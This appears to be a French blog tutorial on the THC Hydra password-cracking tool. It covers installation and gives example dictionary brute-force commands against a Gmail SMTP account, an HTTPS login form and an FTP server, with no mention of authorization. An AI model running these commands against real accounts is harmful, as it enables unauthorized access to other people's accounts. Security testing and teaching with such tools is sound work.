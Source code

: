 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: "/tool/cracker/hydra.html"
read_time: true
---
```


![Hydra](/techlovers/assets/image1hydra.jpeg)

## Qu'est-ce que Hydra :
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra? :
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra :

Hydra est très simple d'installation. Sous Parrot et Kali, Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

### Sur Windows
> - Télécharger THC-Hydra ici => [https://github.com/maaaaz/thc-hydra-windows]
(https://github.com/maaaaz/thc-hydra-windows)
> - extraire le fichier
> - Installation Fini

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un compte ftp via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}